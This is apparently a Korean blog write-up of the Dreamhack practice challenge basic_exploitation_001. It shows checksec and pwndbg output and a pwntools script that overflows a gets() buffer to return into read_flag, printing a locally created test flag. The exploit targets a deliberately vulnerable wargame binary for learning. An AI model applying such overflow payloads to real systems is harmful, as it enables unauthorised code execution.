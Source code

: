 ```yaml
---
title: basic_exploitation_001
author: hwang
date: 2024-05-12 23:30:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_exploitation_001]     # TAG names should always be lowercase
---
```


## Description
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Solution
먼저, basic_exploitation_001에 적용된 보안 기법을 확인하였다.
```bash
$ checksec basic_exploitation_001
```
결과는 위의 Environment와 같다. x86 아키텍쳐에서 작동하고, NX가 작동한다. 저번처럼 버퍼에서 쉘코드를 실행시키는 것은 불가능하다.

이후, pwndbg로 디버깅하였다.
```bash
$ sudo gdb -q basic_exploitation_001

pwndbg> disassemble main
```

결과는 다음과 같다.
```text
Dump of assembler code for function main:
   0x080485cc <+0>:	push   ebp
   0x080485cd <+1>:	mov    ebp,esp
   0x080485cf <+3>:	add    esp,0xffffff80
   0x080485d2 <+6>:	call   0x8048572 <initialize>
   0x080485d7 <+11>:	lea    eax,[ebp-0x80]
   0x080485da <+14>:	push   eax
   0x080485db <+15>:	call   0x80483d0 <gets@plt> //"gets(buf)"
   0x080485e0 <+20>:	add    esp,0x4
   0x080485e3 <+23>:	mov    eax,0x0
   0x080485e8 <+28>:	leave  
   0x080485e9 <+29>:	ret    
End of assembler dump.
```

첨부된 c언어 코드를 살펴보면, read_flag()함수가 코드 내에 존재함을 알 수 있다. elf파일 내에 심볼들의 주소 중 read_flag()의 주소를 읽어서 사용할 수 있다. 스택 프레임 구조는 저번과 같다.

pwntools을 이용하여 exploit 코드를 작성하였다.
```python
from pwn import *

p = process('./basic_exploitation_001')

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag']

payload = b"A" * 128
payload += b"B" * 4
payload += p32(read_flag)

p.sendline(payload)
data = p.recvuntil(b'}')
print(data)
```
실행 결과는 다음과 같다.
```text
[+] Starting local process './basic_exploitation_001': pid 5529
[*] '/home/hwangshincheol/test/basicexploitation/basic_exploitation_001'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
b'DH{Hellothisisatestflag}'
[*] Stopped process './basic_exploitation_001' (pid 5529)
```
> `Flag` 파일을 임의로 생성하였다.
{: .prompt-info }